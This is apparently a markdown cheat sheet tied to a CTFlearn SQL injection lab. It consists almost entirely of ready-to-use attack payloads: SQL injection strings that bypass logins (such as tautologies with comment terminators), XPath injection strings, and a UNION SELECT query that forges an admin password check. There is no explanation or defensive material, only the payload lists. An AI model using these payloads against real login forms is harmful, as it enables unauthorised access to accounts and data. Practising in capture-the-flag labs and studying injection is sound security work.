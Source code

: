 ### Helpful links:
https://ctflearn.com/lab/sql-injection-part-1




### COMMANDS:

```sql
admin'--
admin' /*
" or 1=1 -- 
" OR 1=1 --
```

```sql
' or 1 or '
' or 1=1 --
' OR 1=1 --
' or '1' = '1
' OR "tr"||"ue" --
' OR 2^3 --
admin admin
user user
```

## Xpath injection
```python
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

## Bypass Login
```py
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
' UNION SELECT '123' AS password#
```
